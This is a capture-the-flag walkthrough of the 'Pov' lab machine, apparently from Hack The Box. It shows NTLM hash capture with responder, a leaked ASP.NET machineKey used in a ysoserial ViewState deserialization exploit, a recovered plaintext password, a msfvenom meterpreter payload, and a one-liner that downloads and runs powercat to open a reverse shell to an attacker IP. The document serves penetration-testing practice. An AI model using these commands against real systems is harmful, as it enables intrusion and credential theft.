






# Pov Writeup
<figure></figure>

## Target IP: 10.10.11.251

Nmap Scan: 
```
┌──(kali㉿kali)-[~/Desktop/htb/pov]
└─$ nmap -sC -sV -vv 10.10.11.251
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-favicon: Unknown favicon MD5: E9B5E66DEBD9405ED864CAC17E2A888E
|_http-title: pov.htb   
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Adding `pov.htb` to `/etc/hosts`.

The homepage looks like this.
<figure></figure>

On some more enumeration, Found `dev.pov.htb` which redirected to `/portfolio`.
<figure></figure>

There was also an option to download a PDF.

On capturing the request of the download fucntion this is what the request looked like.

<figure></figure>

On modifying the request I was able to sniff the hash of the machine using `responder`.

```
__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=%2FID%2B%2F80JzP0slknmL6gHhtz%2BcbS5lRYB8TvTC8pdOpW%2BQgT6gpAtZs0DdCH%2BnkOosaQOoATU4YTDXGCmG0rXrK4OHKU%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=F7cn4AoOYvaXadL7Am%2FD7ZjhoKLI0U%2FKQEoy6HzYTlaE8ItQO%2F5JjrET6JnuJ2fG6fQZl7s%2FAUxQkgDkjg52nsfWXsLGlnYyRJZ0HTOvDfPIKnyyc%2BPK8vb3AauW6iUeWM3hDQ%3D%3D&file=\\10.10.16.23\testrequest
```

I changed the file name to trying to access my machine which had the responder setup. By doing so I got the hash of the machine which has the user `sfitz`.

```
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0
[SMB] NTLMv2-SSP Client   : 10.10.11.251 
[SMB] NTLMv2-SSP Username : POV\sfitz
[SMB] NTLMv2-SSP Hash     : sfitz::POV:9a52abd4e02023f9:C40BD048219D47657CD8543C01BC8D06:010100000000000080EECE23387BDA01E8FDD04F22CE19C3000000000200080035004A003600500001001E00570049004E002D0038005500480046004F0043004500330041005100470004003400570049004E002D0038005500480046004F004300450033004100510047002E0035004A00360050002E004C004F00430041004C000300140035004A00360050002E004C004F00430041004C000500140035004A00360050002E004C004F00430041004C000700080080EECE23387BDA0106000400020000000800300030000000000000000000000000200000C1284840268330FE5A89AB6F70D7D9C484F62DB1291156DD8AAB600080A1A03E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00320033000000000000000000  
```

I tried to some more inspection using the same method to try to find some interesting files.

## User Flag

I changed the name of the file from the requests to `/web.config` which contained some useful info.

```
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

We can perform a deserialization attack using the `VewState` as the application is based on ASP.NET

```
PS $ ./ysoserial.exe -p ViewState -g TextFormattingRunProperties --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/default.aspx" -c "powershell -e  payload"
```

The payload we used was from revshells.com `Powershell (base64)`.

And we got the reverse shell by sending the output in the ViewState parameter.

<figure></figure>

After having the shell for `sfitz` we found `connection.xml`.

```
PS C:\Users\sfitz\Documents> cat connection.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
```

We can see the credentials for `alaading` user.

```
PS C:\Users\sfitz\Documents> $cred = Import-CliXml C:\Users\sfitz\Documents\connection.xml
PS C:\Users\sfitz\Documents> $cred.GetNetworkCredential() | fl


UserName       : alaading
Password       : f8gQ8fynP44ek1m3
SecurePassword : System.Security.SecureString
Domain         : 
```

```
PS C:\programdata> $username = 'alaading'
PS C:\programdata> $password = 'f8gQ8fynP44ek1m3'
PS C:\programdata> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\programdata> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)               
PS C:\programdata> Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {Revere shell payload here}
```

We got shell as alaading. And also the user flag.

<figure></figure>

## Root Flag

Now let's create a meterpreter shell first and then proceed.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=9001 -f exe -o payload.exe
```

And also use RunasCs to gain `SeDebugPrivilege`.

```
Invoke-RunasCs -Username alaading -Password f8gQ8fynP44ek1m3 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.71/powercat.ps1');powercat -c 10.10.16.71 -p 1111 -e cmd"
```

And by doing both of it we got root access

<figure></figure>

Thank you!! Happy Hacking :D